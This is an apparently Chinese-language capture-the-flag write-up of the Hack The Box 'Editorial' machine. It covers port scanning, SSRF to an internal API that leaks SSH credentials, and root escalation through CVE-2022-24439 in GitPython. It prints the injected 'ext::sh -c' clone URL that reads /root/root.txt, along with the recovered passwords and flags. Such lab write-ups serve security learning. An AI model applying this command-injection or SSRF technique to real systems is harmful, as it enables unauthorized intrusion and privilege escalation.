










# 端口

```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A 10.10.11.20   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-01 03:45 EDT
Nmap scan report for editorial.htb (10.10.11.20)
Host is up (0.47s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0dedb29ce253fbd4c8c1196e7580d864 (ECDSA)
|_  256 0fb9a7510e00d57b5b7c5fbf2bed53a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/1%OT=22%CT=1%CU=44140%PV=Y%DS=2%DC=T%G=Y%TM=66825EC9
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=107%GCD=1%ISR=107%TI=Z%CI=Z%TS=B)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3
OS:=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   549.04 ms 10.10.16.1
2   256.72 ms editorial.htb (10.10.11.20)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.13 seconds

```

# SSRF

一个上传页面


fuzzing





设置payload


5000端口



测试5000端口


返回：


得到一个地址：
```
static/uploads/fe4cd07b-e570-4971-9d6e-388b62150947
```
访问上面的地址，返回一串json


暴露出一堆api
```
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

访问其中一个api


访问获取到的地址：


得到一段文字：
```
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```


得到一个用户凭据：```dev: dev080217_devAPI!@```

可以登录ssh
```
┌──(root㉿kali)-[~/htb/Editorial]
└─# ssh dev@10.10.11.20         
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Jul  1 10:19:28 AM UTC 2024

  System load:  0.08              Processes:             226
  Usage of /:   60.3% of 6.35GB   Users logged in:       0
  Memory usage: 12%               IPv4 address for eth0: 10.10.11.20
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ ls
apps  user.txt
dev@editorial:~$ cat user.txt 
bead65f1153bf57312d182b416fd0050
dev@editorial:~$ 

```


# 提权

找到另外一个密码




```prod：080217_Producti0n_2023!@```

切换用户后，有sudo特权



```
prod@editorial:/home/dev/apps/app_api$ sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
prod@editorial:/home/dev/apps/app_api$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])

```

根据[CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858?source=post_page-----0fba80ca64e8--------------------------------)


利用GitPython，可以把root.txt复制出来

由于用户输入验证不当，这个包的受影响版本容易受到远程代码执行(Remote Code Execution，RCE)的攻击，这使得有可能将恶意制作的远程 URL 注入到克隆命令中。利用这个漏洞是可能的，因为该库在没有对输入参数进行足够清除的情况下对 git 进行外部调用

```
prod@editorial:~$ echo "" > root.txt
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt"
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:~$ ls
root.txt
prod@editorial:~$ cat root.txt 
347b4e4e9fc4e0496157f0d4fd5aedf5
prod@editorial:~$ 

```